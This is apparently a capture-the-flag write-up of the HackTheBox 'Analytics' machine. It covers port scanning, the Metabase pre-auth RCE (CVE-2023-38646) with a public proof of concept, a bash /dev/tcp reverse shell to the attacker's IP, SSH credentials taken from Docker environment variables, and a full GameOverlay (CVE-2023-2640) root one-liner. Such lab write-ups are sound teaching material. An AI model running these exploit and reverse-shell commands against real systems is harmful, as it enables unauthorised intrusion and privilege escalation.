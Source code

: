 ```yaml
---
title: Analytics
date: 2023-12-06
categories: [CTF, HackTheBox]
tags: [easy, linux, subdomain, cve, docker, env, gameoverlay]
img_path: /assets/img/htb/Analytics
image: 
    path: analytics.webp
    lqip: data:image/webp;base64,L2Fzc2V0cy9pbWcvaHRiL0FuYWx5dGljcy9hbmFseXRpY3Mud2VicA==
    alt: Machine Info Card
---
```


## Machine Info

Analytics is an easy difficulty Linux machine with exposed HTTP and SSH services. Enumeration of the website reveals a `Metabase` instance, which is vulnerable to Pre-Authentication Remote Code Execution ([CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646){:target="_blank"}), which is leveraged to gain a foothold inside a Docker container. Enumerating the Docker container we see that the environment variables set contain credentials that can be used to SSH into the host. Post-exploitation enumeration reveals that the kernel version that is running on the host is vulnerable to `GameOverlay`, which is leveraged to obtain root privileges.

## Port Scanning

We are going to begin by using `nmap` to scan for open ports.

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.129.248.190 -oN allports
```

![Nmap Results: Open Ports](allports.png)
_Open Ports_

## Service Detection

There are 2 open ports in the target, so let's use `nmap` one more time to get more information about them.

```bash
nmap -p22,80 -sCV 10.129.248.190 -oN services
```

![Nmap Results: Services](services.png)
_Services & Versions_

## Port 80 Enumeration

Since we found a domain in the `nmap` results, we have to add it to our `/etc/hosts`{: .filepath} file:

![Add domain](hosts1.png)

Looking at the website, it seems to be a static page but the login tab redirects us to a subdomain: **data.analytical.htb**

![Website](web.png)

![Subdomain](subdomain.png)

To access that site we have to add the subdoaim to our `/etc/hosts`{: .filepath} file:

![Add Subdomain](hosts2.png)

We found the login page of a service called [Metabase](https://www.metabase.com/){:target="_blank"}. Since we don't have valid credentials we are going to search in order to find any vulnerability associated with this service.

![Metabase Login Panel](loginpanel.png)
_Metabase Login Panel_

>Metabase is an open source business intelligence tool that lets you create charts and dashboards using data from a variety of databases and data sources.
{: .prompt-info }

### Metabase Pre-Auth RCE | CVE-2023-38646

A simple search shows us that there is a vulnerability in **Metabase** that allows to gain **Remote Command Execution**.

![Searching for Metabase Vulnerabilities](searchmeta.png)

[CVE-2023–38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646){:target="_blank"}, allowed attackers to execute arbitrary commands on the server without requiring any authentication. The impact of this flaw was severe, as it granted unauthorized access to the server at the server’s privilege level.

>The vulnerability existed in the /api/setup/validate API endpoint, which served as a crucial part of Metabase’s initial setup process. During application setup, this endpoint was responsible for checking the database connection. However, attackers could exploit a flaw in the JDBC connection handling, leading to remote code execution (RCE) with pre-authentication. This meant that attackers could execute malicious commands on the server with elevated privileges, gaining full control over the application environment. With this level of access, an attacker could potentially steal sensitive data, manipulate the application, or even gain control of the entire server infrastructure.
{: .prompt-danger }

To successfully exploit this service we are going to use this [Github Repository](https://github.com/m3m0o/metabase-pre-auth-rce-poc){:target="_blank"}. The vulnerability consists in the use of a setup token which then will allow us to execute commands on the server.

```bash
wget https://raw.githubusercontent.com/m3m0o/metabase-pre-auth-rce-poc/main/main.py
```

![Downloading Exploit](exploit.png)

First we have to check if we have the **setup-token** available, so we have to try the endpoint `/api/session/properties`{: .filepath} and it will give us a lot of information. We are going to use the terminal to easily get what we want.

```bash
curl -s -X GET http://data.analytical.htb/api/session/properties | jq | grep 'setup-token' -C 2
```

![Token](token.png)

We have everything needed to test the exploit, so we will need the **target url**, the **setup-token** we just found and the **command we want to run**. This vulnerability is special because we can not see the output of the command, so we are going to send a ping request to our server in order to check if we have remote command execution.

>Remember to use `tcpdump` to listen for **icmp** requests.
{: .prompt-tip }

```bash
python3 metabase_exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c 'ping -c1 10.10.14.206'
```

![Testing Exploit](testing.png)
_Testing the exploit_

We get the icmp packets so now we are going to use the bash one-liner in order to get a reverse shell:

```bash
python3 metabase_exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c 'bash -i >& /dev/tcp/10.10.14.206/443 0>&1'
```

![RevShell](revshell.png)
_Sending a Reverse Shell_

## Shell as metalytics

We gained access to a Docker container, but using the `env` command we found credentials for `ssh`.

![Credentials](creds.png)

We saved the credential and use it to connect via `ssh` and finally we get access to the real machine as the **metalytics** user.

![SSH Login](ssh.png)

![Hostname](hostname.png)

## Privilege Escalation | [CVE-2023-2640](https://cloudsecurityalliance.org/blog/2023/10/17/new-container-exploit-rooting-non-root-containers-with-cve-2023-2640-and-cve-2023-32629-aka-gameover-lay){:target="_blank"}

After somer enumeration, we can notice the version of Ubuntu this machine is running and we found a vulnerability on the internet that allows us to elevate our privileges to root just by using a specific crafted command.

![System Info](uname.png)

![Privilege Escalation Search](searchpriv.png)

In this [Reddit Discussion](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/){:target="_blank"} there is a **Proof of Concept** we can use to test this machine. Just run the following command and as shown in the image below we managed to get a shell as root.

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
```

![Privilege Escalation](privesc.png)
_Getting a Shell as Root_

## Flags

- [x] user.txt

```bash
cat /home/metalytics/user.txt 
e99**************************92f
```

- [x] root.txt

```bash
cat /root/root.txt
f49**************************88f
```

Thanks for reading! 🙌 🙌 🙌

